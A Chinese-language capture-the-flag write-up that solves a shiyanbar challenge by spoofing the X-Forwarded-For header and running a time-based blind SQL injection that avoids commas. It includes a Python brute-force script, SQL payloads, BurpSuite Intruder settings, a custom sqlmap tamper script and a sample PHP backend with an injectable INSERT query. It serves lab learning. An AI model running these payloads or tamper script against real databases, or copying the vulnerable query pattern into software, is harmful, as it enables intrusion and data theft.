Who are you http://www.shiyanbar.com/ctf/1941
题目：
我要把攻击我的人都记录db中去!
格式ctf{}
解题：
访问链接，页面显示your IP is XX.XX.XX.XX，知道这是一个关于IP伪造。
尝试各种伪造IP的HTTP头：
1 2 3 4 5 X-Forwarded-For Client-IP x-remote-IP x-originating-IP x-remote-addr
发现X-Forwarded-For可以伪造。

题目说：
我要把攻击我的人都记录db中去!
可以猜测这是一个INSERT INTO的注入。
尝试各种注入，发现注入的语句给原封不动地显示在页面中，但，如果注入的语句有逗号，则后面的内容就不会显示在页面中。

所以，猜测逗号后面的内容给截掉了。
入了一个坑，导致想不到怎么注入：
一直觉得后台程序的逻辑是这样的：取X-Forwarded-For的内容，去掉逗号后的内容，再拼接INSERT INTO的SQL语句，写到数据库中，再用SELECT语句从数据库取出（那程序怎么确定现在取回的值就是刚刚插入的值呢？显然这不能保证。），显示在页面中。
入了这个坑，就觉得注入的语句没有逃脱单引号的包围，注入的X-Forwarded-For内容被原封不动地写进了数据库中。
看了Writeup之后才知道这是time-based盲注。
所以想后台程序的逻辑差不多是这样：取X-Forwarded-For的值，去掉逗号后的内容，剩下的存在一个变量里，假设变量名是tmp，然后再拼接到INSERT INTO语句中，执行SQL语句。最后再把tmp的内容显示在页面中。
后台代码可能是这样：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?php error_reporting(0 ); function getIp () $ip = '' ; if (isset ($_SERVER['HTTP_X_FORWARDED_FOR' ])){ $ip = $_SERVER['HTTP_X_FORWARDED_FOR' ]; }else { $ip = $_SERVER['REMOTE_ADDR' ]; } $ip_arr = explode(',' , $ip); return $ip_arr[0 ]; } $host="localhost" ; $user="root" ; $pass="root" ; $db="sangebaimao" ; $connect = mysql_connect($host, $user, $pass) or die ("Unable to connect" ); mysql_select_db($db) or die ("Unable to select database" ); $ip = getIp(); echo 'your ip is :' .$ip;$sql="insert into client_ip (ip) values ('$ip')" ; mysql_query($sql); ?>
所以这不能利用真值注入，报错注入等，只能尝试基于时间的注入。
入了坑，要懂得跳出来。 当设想的程序逻辑跟试验结果不符合，就要尝试另外的设想、思路。
做这道题，用三种方法：
用Python脚本跑。
利用BurpSuite进行基于时间的盲注。
自己写tamper来使用sqlmap绕过 服务端对逗号的过滤 进行time-based注入（修改queries.xml这个方法不行）
0x01 用Python脚本跑 事先确定了flag存储在flag表的flag字符里，且flag的长度为32，
一个简陋的脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 import requestsimport stringurl="http://xxx" guess=string.lowercase + string.uppercase + string.digits flag="" for i in range(1 ,33 ): for str in guess: headers={"x-forwarded-for" :"xx'+" +"(select case when (substring((select flag from flag ) from %d for 1 )='%s') then sleep(5) else 1 end ) and '1'='1" %(i,str)} try : res=requests.get(url,headers=headers,timeout=4 ) except requests.exceptions.ReadTimeout, e: flag = flag + str print "flag:" , flag break print 'result:' + flag
0x02 利用BurpSuite进行基于时间的盲注 参考：https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss
下面是几个要点：
1.设置代理 每次开BurpSuite这个工具都要设置代理，这是很麻烦的。通常使用浏览器的设置选项设置代理会比较方便点。
如在Chrome浏览器设置代理：
更方便的方法是，使用插件。如在Chrome浏览器中使用SwitchyOmega插件来切换代理。这里就不说SwitchyOmega的使用了。
2.BurpSuite如何判断是否超时 首先有个问题，我们如何在BurpSuite得知后台因为SQL的执行而有延迟产生。这需要一点设置。
Options->Connections->Tiimeouts->Normal这一空 改成你想要的超时时间（默认为120秒）。
在进行Intruder攻击时，如果连接超时，则状态码和length一栏为空。由此可以判断连接是否超时。
需要注意的是：在开始Intruder攻击前，需要把Intruder->Options->Request Engine->Number of threads的线程数改成1 ，否则将导致前一个请求的延时造成后一个请求延时，这就使判断不正确了。
3.使用BurpSuite进行HTTP头注入需要注意什么
在Proxy->Intercept->Raw修改数据包内容时：当这个请求没有POST参数，要求最后空两行，否则数据包将发送不成功；当这个请求有POST参数，要求headers与POST参数之间空一行。

建议在Proxy->Intercept->headers一栏里修改请求包的Headers。
在开始Intruder攻击前，Intruder->Payloads->Payload Encoding的URL-encode these characters的勾要去掉，即不让BurpSuite对payload进行URL编码。
4.BurpSuite Intruder的Attack Type 本次time-based注入需要选择Cluster bome这个Attack Type
有关BurpSuite的Attack Type参考：http://blog.csdn.net/u012804180/article/details/52015224
下面是具体的攻击步骤：
先设定Burpsuite的Timeout为4秒：

抓取数据包，并发送到Repeater。
事先验证flag记录的长度，用以下语句来注入：
1 1' and (select case when (select length(flag) from flag limit 1)=32 then sleep(5) else 1 end) and '1'='1

当点击Repeter的Go按钮，等待了约五秒，Go按钮从不可按状态转为可按状态，cancel按钮从可按状态转为不可按状态，Reponse没有任何返回，且Burpsuite 的Alerts模块里新增一个Timeout的提示。就表明后台延时了5秒。
这就可以确定其长度为32了。
把数据包发送到Intruder。
构造注入语句：
1 1' and (select case when (select ord(substring(flag from 1 for 1)) from flag limit 1) = 2 then sleep(5) else 1 end) and '1'='1
其中，表名flag和字段名flag存在可以由以下注入语句来确认：
1 1' and exists(select flag from flag) and sleep(5) and '1' = '1
在两处位置add $，并设置Attack Type为Cluster bomb：

设置Payload1：

设置Payload2：

把Payload1和Payload2的URL-encode取消掉：

设置线程数为1：

万事具备，开始攻击。Inturder->Start Attack

像这些，Status一栏跟Length一栏为空的请求就是超时的。
利用这些就可以得到flag的ASCII值，再转码就得到flag！
0x03 使用sqlmap绕过 服务端对逗号的过滤 1.使用sqlmap进行HTTP头注入 首先，得知道怎么用sqlmap进行HTTP头注入。
方法：
利用-r 参数指定存储着数据包的文件，并用*号来告诉sqlmap哪里是注入点。
这道题的数据包内容是：
1 2 3 4 5 6 7 8 9 10 11 GET /web/wonderkun/index.php HTTP/1.1 Host: ctf5.shiyanbar.com Proxy-Connection: keep-alive Cache-Control: max-age=0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.111 Safari/537.36 X-Forwarded-For: 1* Referer: http://www.shiyanbar.com/ctf/1941 Accept-Encoding: gzip, deflate, sdch Accept-Language: zh-CN,zh;q=0.8
另外，User-Agent、Cookie、Referer的值中可能有*号，这会让sqlmap去测试这些我们不需要测试的地方，这时，可以使用--skip SKIP参数来指示哪里不需要被测试，如：
1 --skip="user-agent,referer"
2.尝试修改queries文件（不可行） 文件是在sqlmap/xml目录下的queries.xml
可以说这个文件存储着sqlmap构造SQL语句的模板 ，其部分内容如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 <root > <dbms value ="MySQL" > <cast query ="CAST(%s AS CHAR)" /> <length query ="CHAR_LENGTH(%s)" /> <isnull query ="IFNULL(%s,' ')" /> <delimiter query ="," /> <limit query ="LIMIT %d,%d" /> <limitregexp query ="\s+LIMIT\s+([\d]+)\s*\,\s*([\d]+)" query2 ="\s+LIMIT\s+([\d]+)" /> <limitgroupstart query ="1" /> <limitgroupstop query ="2" /> <limitstring query =" LIMIT " /> <order query ="ORDER BY %s ASC" /> <count query ="COUNT(%s)" /> <comment query ="-- " query2 ="/*" query3 ="#" /> <substring query ="MID((%s),%d,%d)" /> <concatenate query ="CONCAT(%s,%s)" /> <case query ="SELECT (CASE WHEN (%s) THEN 1 ELSE 0 END)" /> <hex query ="HEX(%s)" /> <inference query ="ORD(MID((%s),%d,1))>%d" /> <banner query ="VERSION()" /> <current_user query ="CURRENT_USER()" /> <current_db query ="DATABASE()" /> <hostname query ="@@HOSTNAME" /> ...
我们可以修改<isnull query="IFNULL(%s,' ')"/>一项为<isnull query="(SELECT %s)"> ，这就避免了使用逗号，还有<inference query="ORD(MID((%s),%d,1))>%d"/>可以改为<inference query="ORD(MID((%s) from %d for 1))>%d"/>，诸如此，等等。
不过，为什么这个方法绕不过服务器对逗号的过滤呢？因为sqlmap要使用IF函数，这个函数中有逗号，而且，queries文件里不可以针对IF函数来修改。
参考乌云文章：SQLMAP进阶使用 http://drops.wooyun.org/tips/5254
3.自己写tamper 参考下sqlmap/tamper/目录下的文件，就可以自己写出简单的tamper。
写tamper的思路也很简单：把sqlmap会用到逗号的语句用其他不含有逗号的语句替代。
自己写了一个很简陋的tamper，名为commalessmysql.py，放在sqlmap/tamper目录下。（这个脚本只适用MySQL）：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 """ Writed by Ovie 2016-12-05 """ import refrom lib.core.enums import PRIORITY__priority__ = PRIORITY.LOWEST def dependencies () : pass def tamper (payload, **kwargs) : """ Replaces some instances with something whthout comma Requirement: * MySQL Tested against: * MySQL 5.0 >>> tamper('ISNULL(TIMESTAMPADD(MINUTE,7061,NULL))') 'ISNULL(NULL)' >>> tamper('MID(VERSION(), 2, 1)') 'MID(VERSION() FROM 2 FOR 1)' >>> tamper('IF(26=26,0,5)') 'CASE WHEN 26=26 THEN 0 ELSE 5 END' >>> tamper('IFNULL(NULL,0x20)') 'CASE WHEN NULL=NULL THEN 0x20 ELSE NULL END' >>> tamper('LIMIT 2, 3') 'LIMIT 3 OFFSET 2' """ def commalessif (payload) : if payload and payload.find("IF" ) > -1 : while payload.find("IF(" ) > -1 : index = payload.find("IF(" ) depth = 1 comma1, comma2, end = None , None , None for i in xrange(index + len("IF(" ), len(payload)): if depth == 1 and payload[i] == ',' and not comma1: comma1 = i elif depth == 1 and payload[i] == ',' and comma1: comma2 = i elif depth == 1 and payload[i] == ')' : end = i break elif payload[i] == '(' : depth += 1 elif payload[i] == ')' : depth -= 1 if comma1 and comma2 and end: _ = payload[index + len("IF(" ):comma1] __ = payload[comma1 + 1 :comma2] ___ = payload[comma2 + 1 :end] newVal = "CASE WHEN %s THEN %s ELSE %s END" % (_, __, ___) payload = payload[:index] + newVal + payload[end + 1 :] else : break return payload def commalessifnull (payload) : if payload and payload.find("IFNULL" ) > -1 : while payload.find("IFNULL(" ) > -1 : index = payload.find("IFNULL(" ) depth = 1 comma, end = None , None for i in xrange(index + len("IFNULL(" ), len(payload)): if depth == 1 and payload[i] == ',' : comma = i elif depth == 1 and payload[i] == ')' : end = i break elif payload[i] == '(' : depth += 1 elif payload[i] == ')' : depth -= 1 if comma and end: _ = payload[index + len("IFNULL(" ):comma] __ = payload[comma + 1 :end].lstrip() newVal = "CASE WHEN %s=NULL THEN %s ELSE %s END" % (_, __, _) payload = payload[:index] + newVal + payload[end + 1 :] else : break return payload retVal = payload if payload: retVal = re.sub(r'(?i)TIMESTAMPADD\(\w+,\d+,NULL\)' , 'NULL' , retVal) retVal = re.sub(r'(?i)MID\((.+?)\s*,\s*(\d+)\s*\,\s*(\d+)\s*\)' , 'MID(\g<1> FROM \g<2> FOR \g<3>)' , retVal) retVal = commalessif(retVal) retVal = commalessifnull(retVal) retVal = re.sub(r'(?i)LIMIT\s*(\d+),\s*(\d+)' , 'LIMIT \g<2> OFFSET \g<1>' , retVal) return retVal
运行sqlmap：
1 sqlmap.py -r post.txt --level=3 --skip="user-agent,referer" -v 3 --tamper=commalessmysql -D web4 -T flag -C flag --dump
得到flag。